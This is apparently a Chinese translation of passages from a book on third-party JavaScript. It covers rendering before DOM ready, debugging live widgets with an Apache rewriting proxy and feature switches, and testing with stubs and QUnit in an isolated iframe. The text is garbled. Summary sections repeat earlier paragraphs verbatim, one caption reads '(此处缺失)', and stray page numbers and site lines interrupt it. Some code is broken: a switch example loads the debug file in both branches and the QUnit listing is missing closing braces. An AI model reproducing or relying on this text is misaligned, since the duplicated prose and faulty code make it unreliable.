从技术上来说，这个版本的程序运行得并没有更快。但由于用户在提交评论时会看到立即响应，他们会产生你的组件运行速度惊人的这种温暖、愉悦的感觉。

### 9.3.2 在文档准备就绪前渲染

在现代 JavaScript 开发中，编写等待文档完成处理后再向页面渲染任何内容的代码是常见的。否则，你就会冒着运行查询不完整 DOM 代码的风险，而且在某些浏览器中，甚至有浏览器崩溃的风险。² 为了强调这一点，几乎每个流行的 JavaScript 库都提供一个 DOM 就绪事件处理器。例如，jQuery 提供了以下辅助方法，用于在浏览器完全解析 DOM 后再执行代码：

```javascript
$(document).ready(function() {

  //可以在这里安全地修改 DOM

});
```

这是 Web 开发中一种安全且受鼓励的做法。但对于第三方应用程序开发者来说，有时 DOM 就绪事件发生得不够快。如果你等待它发生后再向页面渲染，你的代码执行将与发布者运行的其他 JavaScript 程序同时——甚至在它们之后执行。如果其中某些应用程序运行缓慢，或者你的代码最终在 UI 线程队列中排在最后，并在所有其他代码之后渲染，那么你的应用程序在用户看来可能加载缓慢，即使你的 JavaScript 代码和其他资源已经准备就绪了。

但如果文档未准备就绪，你如何安全地渲染到页面呢？有一种方法：将内容插入到已由浏览器处理过的已知且已关闭的元素*之前*或*内部*。理想情况下，这个元素应该是由发布者在你的脚本包含片段之前定义的——这样，就能保证它在你的脚本执行之前就已经存在于 DOM 中。

你永远不应该大胆地假设这个元素总是可用的。始终存在发布者在脚本包含片段之后错误地添加它的可能性，甚至将其放在其 HTML 源代码的底部。在这种情况下，你将回退到等待 DOM 就绪事件。接下来显示了一个用于判断何时可以安全操作 DOM 的工具函数。

```javascript
function onDOMReady(callback) {

  var isReady = false;

  if (window.addEventListener) {

    window.addEventListener('DOMContentLoaded', callback, false);

    return;

  }

}
```

² Internet Explorer 7 在尝试修改未关闭的 DOM 元素时可能会抛出 Operation Aborted 异常。更多信息见 http://support.microsoft.com/kb/927917。

## 列表 9.7
在 DOM 就绪但在（此处缺失）之前调用函数

```javascript
function onDOMReady(callback) {

  var isReady = false;

  if (window.addEventListener) {

    window.addEventListener('DOMContentLoaded', callback, false);

    return;

  }

  window.attachEvent('onload', function () {

    isReady = true;

    callback();

  });

  var timer = setInterval(function () {

    if (isReady) {

      clearInterval(timer);

      return;

    }

    if (document && document.getElementsByTagName('body')[0]) {

      clearInterval(timer);

      callback();

      return;

    }

  }, 20);

}
```

www.it-ebooks.info

**223**

***总结***

从技术上来说，这个版本的程序运行得并没有更快。但由于用户在提交评论时会看到立即响应，他们会产生你的组件运行速度惊人的这种温暖、愉悦的感觉。

### 9.4 总结

在现代 JavaScript 开发中，编写等待文档完成处理后再向页面渲染任何内容的代码是常见的。否则，你就会冒着运行查询不完整 DOM 代码的风险，而且在某些浏览器中，甚至有浏览器崩溃的风险。² 为了强调这一点，几乎每个流行的 JavaScript 库都提供一个 DOM 就绪事件处理器。例如，jQuery 提供了以下辅助方法，用于在浏览器完全解析 DOM 后再执行代码：

```javascript
$(document).ready(function() {

  //安全地修改 DOM

});
```


这是 Web 开发中一种安全且受鼓励的做法。但对于第三方应用程序开发者来说，有时 `DOM` 就绪事件发生得不够快。如果你等待它发生后再向页面渲染，你的代码执行将与发布者运行的其他 `JavaScript` 程序同时——甚至在它们之后执行。如果其中某些应用程序运行缓慢，或者你的代码最终在 `UI` 线程队列中排在最后，并在所有其他代码之后渲染，那么你的应用程序在用户看来可能加载缓慢，即使你的 `JavaScript` 代码和其他资源已经准备就绪了。

但如果文档未准备就绪，你如何安全地渲染到页面呢？有一种方法：将内容插入到已由浏览器处理过的已知且已关闭的元素*之前*或*内部*。理想情况下，这个元素应该是由发布者在你的脚本包含片段之前定义的——这样就能保证它在你的脚本执行之前就已经存在于 `DOM` 中。

你永远不应该大胆地假设这个元素总是可用的。始终存在发布者在脚本包含片段之后错误地添加它的可能性，甚至将其放在其 `HTML` 源代码的底部。在这种情况下，你将回退到等待 `DOM` 就绪事件。接下来显示了一个用于判断何时可以安全操作 `DOM` 的工具函数。

这一章完全关于如何让你的应用程序加载、运行和感觉更快。你学习了让应用程序变最好的方法是减少初始负载、延迟执行绝对必要的部分，并确保你没有让浏览器频繁重流和重绘。对于无法进一步优化的部分，你可以通过提高组件的感知性能来增加用户满意度。无论你正在处理哪种第三方应用程序，都应该考虑应用在本章中获得的知识。

## 总结

从技术上来说，这个版本的程序运行得并没有更快。但由于用户在提交评论时会看到立即响应，他们会产生你的组件运行速度惊人的这种温暖、愉悦的感觉。

## 调试

甚至在 `HTML` 表单内部也是如此。你的应用程序可能随时被破坏并重新加载。这使得调试变得困难，因为应用程序中的 bug 可能是由许多你无法控制的额外因素引起的。此外，为了兼容旧版浏览器，你的应用程序可能需要依赖丑陋的浏览器黑科技（`hacks`）。还记得我们在第 5 章中采用的 `iframe` 技巧，用来在遗留浏览器中模拟 `window.postMessage` 吗？这些黑科技有时依赖于复杂的解决方案，调试起来极其困难。根据我们自己的估计，我们花费了好几天时间调试前面的章节中涵盖的一些跨域消息技术。更糟糕的是，任何未被规范定义的（黑科技就属于这一类）都依赖于未指定的浏览器行为，这些行为可能会在未来的任何浏览器或操作系统更新中被移除。

最后，你必须记住——从本质上说，第三方 `JavaScript` 应用仍然是普通的 Web 应用。因此，除了第三方脚本特定的问题外，你仍然需要处理影响正常 Web 应用开发的所有问题：调试工具糟糕的旧浏览器、更改浏览器默认行为的插件，当然还有只有在生产环境中才能重现、当你挂上调试器时却无法重现的灵异 bug（`Heisenbugs`）。

当你识别并修复一个 bug 后，你可能想为它写一个测试。测试第三方组件也不是易事。除了需要测试多个浏览器和浏览器版本外，你可能还需要针对不同的 Web 环境和上下文进行测试。例如，你通常需要模拟一个恶意发布者（`rogue publisher`）的环境，以重现 bug 发生的状况。你将需要永远保留该环境在测试套环境中，以确保以后不会引入回归。

本章将从准备你的生产环境以应对偶尔的调试任务开始。然后，我们将使用 `JavaScript` 调试器逐步执行代码，以隔离并消灭 bug。消灭之后，你将学习如何通过编写良好的单元测试和集成测试来防止 bug。现在，让我们找个 bug 看看是否能找到它的源头！

### 调试

考虑以下情况：你已经将 Camera Stork 第三方应用发布到了真实世界（`into the wild`），一个特定的发布者报告了一个问题：访问者无法在发布者的网站上提交评论。该组件在页面上正常配置和渲染，但当用户点击“提交（`Submit`）”按钮时，什么都没有发生：没有明显的错误，没有视觉反馈，也没有向服务器发送 `HTTP` 请求。幸运的是，这个 bug 在所有浏览器中都会发生，因此你可以选择最合适的开发工具来引导你完成这个用例。

通常情况下，每次调试过程都包括在受控环境中重现 bug，然后逐步执行代码，尝试找到问题的根源。因此，你应该要做的第一件事始终是尝试在你的受控开发环境中重现所报告的 bug。实现此点的一种方法是将发布者页面的本地副本（包括他们的资源和 `JavaScript` 文件）保存到你的本地文件系统中。这样，你可以复制发布者的环境，但加载你第三方应用程序的开发版本。这种技术有时非常有效，但有时网站上有非常多不同的脚本、插件和组件，下载并配置它们所有内容可能会浪费时间。

假设报告此 bug 的发布者恰好非常喜欢第三方应用，以至于他们的网站上布满了**几十个**这类应用：每个主要社交网络的分享按钮、分析脚本、第三方广告等等。遗遗憾的是，在你的电脑上尝试重现这种“荒野西部”式的环境可能会耗掉你几个小时的人生。你还有业务要经营！所以对于这个用例，在生产环境中调试要有利得多。你必须逐步执行代码，寻找具有错误值的数据结构，维护一个可能导致 bug 的场景列表，并且在排除所有其他因素后——找到真正导致此 bug 发生的源头。

## JavaScript 错误报告

并不是所有的 bug 和应用程序错误都会由用户报告。通常，你并不会那么幸运！这就是为什么投资一些工具来检测并报告应用程序在生产环境中运行时发生的 `JavaScript` 错误是值得的。`Errorception`（`http://errorception.com`）和 `ExceptionHub`（`http://exceptionhub.com`）是一些商业产品，或者你也可以查看像 `Sentry`（`https://github.com/getsentry/sentry`）这样的开源项目。

但在开始之前，你应该意识到调试生产环境代码存在许多困难。首先，如果你遵循了我们第 9 章的建议，你所有的脚本和样式表可能都合并成了一个单一的压缩和混淆过的 `JavaScript` 文件。这种压缩文件在调试时可能是一场噩梦（见图 10.1）。此外，由于你无法控制发布者的服务器，你无法在他们的页面上设置任何调试断点来帮助开始。你甚至无法不影响所有其他 Camera Stork 用户的情况下更新自己的代码。

这意味着你不希望普通用户访问你的开发代码——你必须手动配置浏览器以使用你的开发版本。这看起来像是一个复杂的设置，但有工具可以使其变得更简单。我们将展示两种解决方案：重写代理（`rewriting proxies`）和功能开关。

### 调试

当面临生产环境中的 bug 时，显然你想让你的浏览器使用你的开发代码。我们将查看两种技术：它们都有优缺点，你使用哪种技术取决于具体情况。让我们从重写代理开始。

## 重写代理

重定向某些类型请求的代理服务器也被称为**重写代理**（`rewriting proxies`）。它们的工作是拦截、分析并重写通过它们的请求。一种常见的代理是缓存代理——一种缓存网页以加速交付的应用程序。为了调试 Camera Stork 组件，你的代理将拦截指向 `media.camerork.com` 的请求，并将其重写为指向 `media.camerork.dev` 的请求。尽管你可以设置代理重写到更高级别的 `camerork.com` 域名，但你可能不想这样做。这是因为你的本地计算机可能无法访问 `camerork.com` 提供的数据库服务器或 Web 服务 `API`。通过只重写加载静态资源的子集，你可以让你的浏览器在发布者网站上“实时”运行时使用你的开发代码。

## 配置 Apache 作为重写代理

让我们将 `Apache` 配置为重写代理。我们选择 `Apache` 是因为它是 Web 上的事实标准服务器，大多数基于 `Unix` 的操作系统（包括 `OS X` 和许多 `Linux` 发行版）都默认安装了 `Apache`。要让 `Apache` 成为重写代理，你需要启用两个模块：`proxy` 和 `rewrite`。为此，你将使用一个名为 `a2enmod` 的特殊程序。只需在终端中运行以下命令：

```bash
$ a2enmod proxy rewrite
```

### Apache 中的模块

`Apache` 支持许多不同的功能，其中许多功能是以编译模块的形式实现的。这些模块扩展了服务器的核心功能，并可以使用名为 `a2enmod` 和 `a2dismod` 的特殊程序进行启用或禁用。请注意，在没有 `a2enmod` 和 `a2dismod` 的环境中，你仍然可以通过编辑 `Apache` 配置文件来启用模块。更多信息请参阅 `Apache` 在线文档。

在启用这些模块后，你需要配置你的 `Apache` 设置文件，以拦截所有以 `media.camerastork.com`为主主机名的 `URL`，并将该主机名替换为 `media.camerastork.dev`。你需要修改的配置文件取决于你的设置和操作系统。例如，由于你可能不想专门用一台具有独立 `IP` 地址的全新机器作为你的代理服务器，你需要在你的 `Apache` 安装中设置一个基于名称的虚拟主机。*基于名称的虚拟主机*是一种让你从同一个 `IP` 地址（并且大多数情况下是同一个同一台物理机器）托管多个主机名的方法。

`Apache` 能够轻松配置多个基于名称的虚拟主机。例如，在 `OS X` 上，你只需要修改 `/etc/apache2/extra/httpd-vhosts.conf`。要告诉 `Apache` 将所有发往 `media.camerastork.com` 的请求重写为 `media.camerastork.dev`，你需要打开该文件并为代理服务器添加一个新条目：

```apache
<VirtualHost *:8080>
ServerName proxy.dev
RewriteEngine on
RewriteCond %{HTTP_HOST} ^media.camerastork\.com
RewriteRule ^proxy:http://.*?/(.*)$ http://media.camerastork.dev/$1 [P,L]
</VirtualHost>
```

修改完配置文件后，只需重启 `Apache` 实例即可大功告成：

```bash
$ apachectl restart
```

现在你已经运行了一个重写代理服务器，你需要做的就是配置你的网络浏览器使用它。你可以配置整个操作系统连接到代理，这通常位于你操作系统的网络设置中。更好的是，某些网络浏览器内置了对 `HTTP` 代理的支持，例如 `Mozilla Firefox`。要配置 `Firefox` 使用你的代理，进入“首选项 > 高级 > 网络”，并在“`HTTP` 代理”下提供 `proxy.dev:8080`，如图 10.3 所示。

完成后，你可以重新访问出现问题的发布者页面并尝试重现该 bug。这一次，你的浏览器将使用 Camera Stork 的开发版 `JavaScript` 文件，因此你可以启动浏览器调试器并开始逐步执行代码。如果你从未接触过 `JavaScript` 调试器，别担心——我们稍后会向你展示如何操作。但现在让我们看看另一种配置调试环境以访问开发代码的替代方法——功能开关。

**在主机 `proxy.dev:8080` 上运行的代理服务器设置**

| 当 `Apache` 遇到带有 `media.camerastork.com` 主机名的 `URL` 时 ... |
| :--- | :--- |
| 重写 URL 指向你的开发服务器 |

## 功能开关

如果你曾用过 `Twitter` 或 `Facebook`，你可能已经注意到这些公司不会一次性向所有用户发布新功能。大多数情况下，他们首先让一小部分比例的用户可以使用新功能（例如 10%），然后在经过额外的测试后，他们逐渐增加该百分比，直到覆盖所有用户。你可以使用这种相同的技术，配合*功能开关*系统（有时也称为*功能切换器*）。开关是特殊的条件，允许你将应用程序的某些功能限制为部分用户、发布者和环境。这意味着你可以使用开关在请求时决定选择哪条代码路径、加载哪个接口等。

此时，你可能在想功能开关如何与调试和测试你的应用程序。通过功能开关，你可以在服务器上同时拥有两个版本的代码——生产和开发版本，并根据当前请求和你当前的开关配置来选择加载哪一个。例如，你可以创建一个开关，仅当用户名为 `admin` 的用户向你的服务器发送请求时才加载调试代码。那么，为了获得未压缩且可调试的


以及可调试的 `JavaScript` 代码，你只需要以 `admin` 用户身份登录并访问故障页面即可。

让我们配置一个实现此行为的开关。我们将通过在应用程序的配置文件中声明开关来实现。对于用 `Python` 编写的应用程序，你可以创建一个名为 `settings.py` 的文件来存放你的开关配置，以便其他文件可以使用它。例如：

```python
# settings.py

SWITCHES = {
    'debug': ['admin'],
    'new_interface': []
}
```

```python
# views.py

from settings import SWITCHES

def loader(request):
    if request.user in SWITCHES['debug']:
        return js('debug.js')
    else:
        return js('debug.js')
```

你会注意到，在这个示例中我们硬编码了开关。但每次想更改开关时都要重新部署代码，这正是我们想要避免的！所以，下一步是将开关移动到数据库。通过在数据库中存储开关，你可以无需重新部署代码。让我们看看下次加载应用程序时发生什么。应用程序将查询数据库开关是否开启。如果答案是，则加载开发环境。如果答案否，则进入生产环境。

```python
from models import Switches

def loader(request):
    sw = Switches.objects.get(name='debug')
    if request.user in sw.users:
        return js('camerastork.debug.js')
    else:
        return js('js')
```

数据库支持的开关的实际实现不在本书的范围内。但你应该能找到如何为你的 Web 平台实现功能开关的信息。有很多框架插件和库可以为你完成。

### Django Gargoyle

如果你在使用 `Django` 作为 Web 应用程序栈的一部分，我们建议你查看 Gargoyle。Gargoyle 是由 Disqus 的工程师基于 `Django` 构建的开关平台。它既强大又易用：

```python
from gargoyle import gargoyle

def loader(request):
    if gargoyle.is_active('debug', request):
        return js('loader.debug.js')
    else:
        return js('loader.js')
```


此外，`Gargoyle` 提供了一个方便的浏览器界面来切换开关。`Gargoyle` 是开源项目，可以在 GitHub 上获取：`https://github.com/disqus/gargoyle`。现在你已经了解了功能开关和代理服务器是如何工作的，问题仍然是，哪种对于调试开发文件更好？答案是模糊的。开关之所以很好是因为它们易于实现、可以通过按钮开启，并且可以在各种复杂的参数下（用户名、IP 地址、浏览器版本——无限制）开启。代理可以让你对所提供的文件进行更细粒度的控制。例如，通过代理，你甚至可以使用本地 JavaScript 代码的实验版本测试网站。在 Disqus，我们每天都使用这两种解决方案。

| 浏览器 | Web 服务器 | 开关是否开启 |
| :--- | :--- | :--- |
| | 数据库 | 是 -> 开发环境 |

图 10.4 加载器通过检查数据库中的值来检查开关状态，并决定加载开发文件还是生产文件。

**233**

***调试***

即将上线：JAVASCRIPT 源码映射（SOURCE MAPS）

Source Maps 是一项前沿的浏览器功能，允许调试器将合并和压缩的文件映射到其原始的未压缩对应文件。在支持该功能的浏览器（目前仅限 Chrome）中，它使得在不借助代理或功能开关的情况下调试生产代码成为可能。要了解更多信息，我们推荐阅读来自 HTML5 Rocks 的这篇文章：`http://mng.bz/JENs`。

此时，你已经可以在浏览出现问题的发布者页面时访问开发文件了。现在，是时候卷起袖子真正开始调试问题了。在接下来的章节中，我们将向你展示如何在监控程序状态的同时逐行执行代码，以发现并解决非复杂的错误。

### 10.1.2 逐行执行代码

在 JavaScript 编程的黑暗时代，开发者调试 JavaScript 代码的方法只有一种——通过老的 `alert` 消息。与其他主流编程语言可用的调试工具相比，JavaScript 曾经拥有最糟糕的开发平台——无无例外。幸运的是，浏览器厂商意识到 JavaScript 开发者需要更好的工具，如今所有现代浏览器都带有极其强大的内置检查器、性能分析器和调试器。在本节中，我们将重点介绍调试器——允许你在 JavaScript 代码执行时对其进行检查，并使用它们来逐行运行实时代码。

**设置断点**

让我们回到你的 Camera Stork 错误：用户无法在某个发布者的网站上发布评论，而你对可能导致此问题的原因没有任何线索。假设你已经已经在该发布者的网站上复现了这种行为。你现在可以运行未压缩且未混淆的代码，因此你可能在你怀疑导致错误的代码附近设置一个*断点*——一个特殊的语句，告诉调试器在何处暂停执行。没有统一的规则可以告诉你将断点放置在哪里；你必须做出有经验的推断。对于我们正在调查的 Camera Stork 错误，在提交用户评论和发送到服务器之间的某处放置断点是合理的。

假设以下代码从小部件的 HTML 表单接收用户评论数据，并通过已经初始化的 easyXDM 跨域通道发送它：

```javascript
Stork.prototype.submitReview = function (data, onSuccess, onFailure) {
  if (!data.reviewText) {
    return;
  }
  var channel = this.getChannel();
  var message = JSON.stringify(data);
  channel.submit(message, onSuccess, onFailure);
};
```

**如果评论为空，则返回而不发送任何数据。**

**对 easyXDM 驱动跨域通道的封装。**

**将 JavaScript 对象转换为字符串。通常，easyXDM 会处理这些内容，但为了示例我们显式地处理了。**

**234**

第 10 章

***调试与测试***

由于你完全不知道是什么导致了失败，在函数开始处暂停观察发生了什么是一个很好的策略。放置断点有两种方法：使用调试器的 UI，或者在你的 JavaScript 代码中放置特殊的调试器关键字。使用后者时，你只需要将其插入到你想暂停执行的行之前：

```javascript
Stork.prototype.submitReview = function (data, onSuccess, onFailure) {
  debugger;
  if (!data.reviewText) {
    return;
  }
  var channel = this.getChannel();
  var message = JSON.stringify(data);
  channel.submit(message, onSuccess, onFailure);
};
```

现在你必须检查你的输入数据是否正确——因为如果不正确，你必须回溯并在代码更早的地方放置断点。在这种情况下，数据恰好是有效的，所以你必须深入研究这个函数以找到错误的根源。你将使用调试器逐行执行代码，直到创建 `message` 变量的行。

**如何逐行执行代码**

每个浏览器的调试器逐执行代码的用户界面略有不同但相似。图 10.5 显示了 Chrome JavaScript 调试器的截图。Safari 的 JavaScript 调试器看起来和运行几乎相同。

当你处于字符串化数据对象的语句上时，你可以再次向前一步执行 `JSON.stringify`，然后使用控制台或调试器的作用域变量（Scope Variables）面板检查 `message` 变量的值：

```
> console.log(message);
"{\"reviewText\":\"This camera is great!\",\"user\":1,\"camera\":2}"
```

输出有些奇怪。`JSON.stringify` 应该将 JavaScript 对象转换为字符串，但 `message` 的当前值包含转义后的双引号。这意味着 `JSON.stringify` 可能执行了*两次*——它首先将你的数据对象转换为字符串，随后又将该字符串转换为另一个经过转义的字符串。这显然不是你从浏览器内置 `JSON.stringify` 函数中预期的结果。

**调试的艺术**

涉及到调试 JavaScript 应用时，并没有宏大的概念。你所做的就是做出有经验的推断、放置断点、暂停执行，并逐行通过代码，直到你注意到异常之处——例如一个持有意外值的变量。这解释了引号的问题。

**259**

**235**

***调试与测试***

**始终检查重写的原生函数**

在调试第三方函数时，你的第一个假设应该是发布者重写了 JavaScript。

**当面对对调试不利的原生函数时**

在这种情况下，原生函数似乎没有被修改。是浏览器 bug 吗？遗憾的是，你现在处于无法进一步检查这些内容的节点了。

**237**

***测试***

```javascript
if (typeof arr.toJSON === "function") {
  arr = arr.toJSON();
  corrupted = !(arr && arr.length === 3 && arr[2] === 3);
}

if (!JSON || corrupted) {
  Stork.JSON.stringify = function (obj) { /* ... */ };
  Stork.JSON.parse = function (str) { /* ... */ };
} else {
  Stork.JSON.stringify = JSON.stringify;
  Stork.JSON.parse = JSON.parse;
}
```

既然你已经发现并修复了 bug，你应该编写一个回归测试，以确保不会再次被这个 bug 坑。任何经验丰富的软件开发者都会告诉你，自动化测试在任何软件项目中都是重要的，但对于第三方 JavaScript 应用程序，这可能会变得复杂。下一节将向你展示如何为第三方应用程序编写良好的单元测试。

*10.2*

*测试*

在没有测试的情况下开发 Web 应用程序就像在部署时玩俄罗斯轮盘：你可能会幸运几次，但早晚你会推出导致应用程序崩溃的代码。这并不是因为你是一个糟糕的开发者；*每个人*都会犯错。Web 应用程序的 bug 并不总是显而易见的。bug 可能由你正在修改的代码中完全无关的更改引入，如果不进行广泛的系统级测试，很难发现它们。这就是为什么自动化测试对于任何软件项目（包括第三方 JavaScript 应用程序）都至关重要。

但测试第三方组件并不容易。你必须在所有支持的浏览器中运行测试，并确保你的测试涵盖了常见功能以及浏览器的特性。此外，大多数 Web 测试框架没有为单个测试和测试套件提供足够的隔离机制。这意味着，如果你的应用程序使用了任何形式的全局状态（大多数复杂的组件都是如此），你就必须在*每个测试之后*手动重置该状态，否则不同的测试之间可能会以不可预测的方式相互冲突。回归测试也是如此——即确保你在推送新功能时不会引入新 bug 的测试。你如何编写一个测试用例，确保 Camera Stork 在覆盖了特殊 `toJSON` 方法的页面上运行正常，且不影响所有其他测试？在本节中，我们将使用不同的 Web 测试框架和平台，回答这个问题以及关于测试第三方 JavaScript 应用程序的其他问题。首先，我们将回顾不同类型的测试并解释它们的目的。

- 在简单数组上调用 `toJSON` 函数，检查它是否仍然返回相同的数组。如果不是，则你无法再使用原生 JSON 对象。

- 如果浏览器不支持原生 JSON 实现或页面损坏了它，请使用自己的实现。

- 否则使用原生函数——它们总是比你自己的代码快。

`www.it-ebooks.info`

**238**

第10 章

***调试与测试***

### 10.2.1 单元测试、集成测试和回归测试

在软件编程中，测试可以分为几种不同的类型。我们将介绍其中三种：单元测试，测试隔离的软件组件；集成测试，测试多个软件组件在最终产品中的组合情况；以及回归测试，测试 bug 或问题是否会再次发生。

#### 单元测试（UNIT TESTS）

*单元测试*测试单个源代码“单元”，忽略其他软件组件。一个良好的单元测试只了解一个函数、它的签名和预期的返回值。它既不知道也不关心你应用程序的宏观层面：这些函数是如何协同工作的、它们之间如何传递消息等。

例如，让我们为 `JSON.stringify` 快速写一个单元测试。我们将在不借助任何单元测试框架的情况下编写此测试——我们稍后会介绍这些。此函数检查 JSON 和 JSON.stringify 是否已定义，以及 `JSON.stringify` 是否可以处理 JavaScript 对象、数组和字符串字面量的序列化：

```javascript
function testStringify() {
  var expectedValue =
    '{"title":"3rd-party JS","authors":["Anton","Ben"]}';
  var actualValue = JSON.stringify({
    title: "3rd-party JS",
    authors: [ "Anton", "Ben" ]
  });
  if (actualValue !== expectedValue) {
    throw new Error("Test Failed: " + expectedValue + " != " + actualValue);
  }
}
```

对于这样一个简单的函数来说，还不错，对吧？如果你想更进一步，可以为 `JSON.parse` 编写另一个测试用例，甚至再写一个检查 `JSON.parse` 是否可以解析 `JSON.stringify` 序列化的内容！当你确保确保函数始终遵循某些指定行为（例如将对象转换为 JSON 字符串）时，就应该编写单元测试。单元测试能让你更有信心认为你的代码行为符合预期。

#### 静态代码分析（STATIC CODE ANALYSIS）

测试代码的另一种方法是通过静态代码分析工具运行它。这些工具扫描你的程序的源代码，并报告常见的错误和潜在的 bug。潜在问题可能是语法错误、由于隐式类型转换导致的 bug、变量泄漏或其他内容。

静态代码分析工具对于日常开发极其有用。我们特别推荐 JSHint (`http://jshint.com/`)，这是一个由本书其中一位作者维护的社区驱动工具。它非常灵活，你可以在部署到上线之前根据自己的编码风格对其进行调整。

`www.it-ebooks.info`

**239**

***测试***

#### 集成测试（INTEGRATION TESTS）

单元测试是从程序员的角度编写的：即确保单个函数在隔离状态下运行正确。但这只是画面的一个侧。而在另一侧是*集成测试*。这些测试确保你的程序从用户的角度按预期工作。例如，对于 Camera Stork 应用程序，这意味着测试用户可以登录、注销、提交评论等。在本节中，我们将编写一个简单的集成测试来测试评论提交过程。

由于集成测试涵盖的范围比单元测试广，它们通常非常慢。当它们需要一个能够响应 API 请求或表单提交的运行服务器时，情况尤其如此。除非你是一个非常有耐心的人，否则你不想在运行测试几分钟后才发现代码中的微小错误。为了应对这一点，开发者通常会将应用程序中的缓慢组件替换为空*存根*函数，然后验证这些函数是否被调用。列表 10.1 展示了一个集成测试，确保 `Stork.submitReview` 正确从表单获取数据，然后通过 `Stork.getChannel().submit` 将数据发送到服务器。该集成测试模拟了 `getChannel` 函数返回一个更新标记以指示函数已调用的对象：

```javascript
function testSubmitReview() {
  Stork.jQuery('textarea#stork-review').val("Love it. 5 stars!");
  var submitCalled = false;
  Stork.getChannel = function () {
    return {
      submit: function (data) {
        submitCalled = true;
        var msg = JSON.parse(data).message;
        if (msg !== "Love it. 5 stars!") {
          throw new Error("Message is incorrect.");
        }
      }
    };
  };
  Stork.submitReview();
  if (!submitCalled) {
    throw new Error("Channel.submit was never called");
  }
}
```

列表 10.1: 一个模拟服务器请求的集成测试

| 步骤 | 操作 |
| :--- | :--- |
| 将评论文本放置在 textarea 中，以便被 `submitReview` 获取 |
| 创建一个标记以检查 `submitReview` 是否真的调用了 `Channel.submit` |
| 将 `getChannel` 函数替换为返回一个存根对象的函数 |
| 存根对象定义了 `submit` 函数，它检查其是否以正确的参数被调用，并切换早早创建的标记 |
| 照常调用 `Stork.submitReview`——无需任何额外修改 |
| 检查存根对象是否将 `submitCalled` 设置为 true |

`www.it-ebooks.info`

**240**

第 10 章

***调试与测试***

使用 SINON.JS 模拟 JavaScript 对象

在这些代码示例中，我们手动创建了自己的存根（stub）函数，但在项目中你不必这样做。Sinon.JS 是一个非常有用的 JavaScript 库，它提供了存根、模拟（mocks）、间探器（spies）和其他测试对象，可以极大地简化你的测试代码。你可以访问 `http://sinonjs.org/` 查看它。

你可能已经注意到，在列表 10.1 以及本章之前的其他测试示例中，我们做了大量的手动工作。我们的测试函数没有断言（assertions）——即指示某些内容*必须*为真的谓词——甚至没有一个将这些测试组合在一起、运行它们并在美观的 UI 中展示结果的测试运行器。我们这样做是为了向你展示自动化测试并不是魔法；它们只是确保其他程序按预期运行的程序。我们很快就会查看一些 JavaScript 测试框架，但让我们先讨论最后一一种测试类型：回归测试。

使用 SELENIUM 将你的集成测试推到更高水平

到为止，我们探索了使用纯 JavaScript 代码编写的集成测试。但如果你能编写测试来打开网络浏览器窗口、加载你的应用程序，并像真实用户一样与之交互，会怎样？这通过所谓的*浏览器自动化框架*是可以实现的。我们建议你研究使用 Selenium——它可能是最流行且功能最完整的浏览器自动化工具。Selenium 支持大多数浏览器，并允许你使用 Python、Ruby、PHP、Java、Perl 和 Groovy 等多种流行编程语言编写测试。访问 `http://seleniumhq.org/` 了解更多关于 Selenium 的信息。

回归测试

在上一节中，我们处理了一个棘手的 bug，当时应用程序在覆盖了 `Object.toJSON` 的页面上无法正常工作。当然，你已经修复了这个 bug，但仍然有一项剩余任务：确保这个 bug 未来不会因为新功能或其他代码修改而重新引入。为了防止这种情况发生，你需要编写一个*回归测试*。回归测试是单元测试或集成测试，它们创建一个导致该 bug 的环境，并确保该 bug 不再次出现。针对我们的 bug，良好的回归测试是在“损坏”的页面上加载 Camera Stork 组件，并验证 `Stork.JSON` 仍然能够正确地序列化和解析 JSON 数据。

我们不会像在之前的章节那样编写临时的回归测试，而是将使用两个非常有用的 JavaScript 测试框架：QUnit 和 Hiro。我们将从今天可能最流行的测试框架开始：QUnit。


### 10.2.2 使用 QUnit 编写回归测试

QUnit 是一个 JavaScript 测试框架，为 jQuery 项目创建，并用于测试 jQuery 代码库及相关插件。但不要误解：QUnit 简单、灵活，并且能够测试任何通用 JavaScript 代码，包括像 Camera Stork 应用程序这样的第三方组件。要使用 QUnit，你需要从 `https://github.com/jquery/qunit` 下载该库的副本，并创建一个 HTML 文件，其中加载 QUnit 以及你的测试文件。

**241**

***测试***

#### 编写一个简单的 QUNIT 测试用例

你的任务是编写一个回归测试，确保 `Stork.JSON` 在整洁页面上以及在具有不兼容的 `Object.toJSON` 实现的异常页面上都能工作。

你可以从为 `Stork.JSON` 编写一个简单的 QUnit 测试用例开始，如下：

```html
<!DOCTYPE html>
<html>
<head>
<link rel="stylesheet" href="qunit.css"/>
<script src="jquery.js"></script>
<script src="qunit.js"></script>
<script src="stork/lib.js"></script>
<script>
$(document).ready(function () {
QUnit.module("JSON");
QUnit.test("test JSON.parse and JSON.stringify",
function () {
expect(2);
var obj = {'chapter':'Testing',pages: [1, 2, 3] };
equal(Stork.JSON.stringify(obj),
'{"chapter":"Testing","pages":[1,2,3]}');
equal(Stork.JSON.parse(Stork.JSON.stringify(obj)), obj);
});
</script>
</head>
<body>
<h1 id="qunit-header">CameraStork Tests</h1><h2 id="qunit-banner"></h2>
<div id="qunit-testrunner-toolbar"></div><h2 id="qunit-userAgent"></h2>
<ol id="qunit-tests"></ol>
</body>
</html>
```

现在，如果你在浏览器中打开这个 HTML 文件，你应该看到与图 10.6 类似的内容。这意味着 QUnit 运行了测试并通过了！这个成功的测试意味着你可以放心 `Stork.JSON` 在整洁页面上可以工作。但你的目标是在列表 10.1 中的测试在损坏页面和整洁页面上运行。这意味着你需要加载相同的测试，但在不同的环境中——即那个引入了不兼容的 `Object.toJSON` 实现的环境。但 QUnit 在同一个窗口中运行所有测试，因此仅仅包含一个实现不兼容 `Object.toJSON` 的脚本是行不通的。

列表 10.2 使用 QUnit 框架的测试用例示例

**242**

第 10 章

***调试与测试***

#### 为 QUnit 测试创建一个隔离环境

隔离测试的最好方法是将测试的对象放置在一个新创建的无源 iframe 内部。这个 iframe 将具有一个完全干净的环境，不受外部窗口的影响。在这个 iframe 内部，你可以加载任何文件并修改内置对象，而不会与现有测试引入任何冲突。接下来的列表显示了如何在隔离的 iframe 内部运行列表 10.2 中的测试。

```javascript
<script>
$(document).ready(function () {
QUnit.module("JSON/broken toJSON");
QUnit.test("test funcs w/ modified toJSON", function () {
expect(2);
var iframe = document.createElement('iframe');
iframe.style.position = 'absolute';
iframe.style.top = '-2000px';
document.body.appendChild(iframe);
var isolatedWin = iframe.contentWindow;
var isolatedDoc = isolatedWin.document;
isolatedDoc.write(
"<html>" +
"<body>" +
"<script>Object.prototype.toJSON = " +
"function () { return ''; }" +
"</script>" +
"</body>" +
"</html>"
);
isolatedDoc.close();
...
```

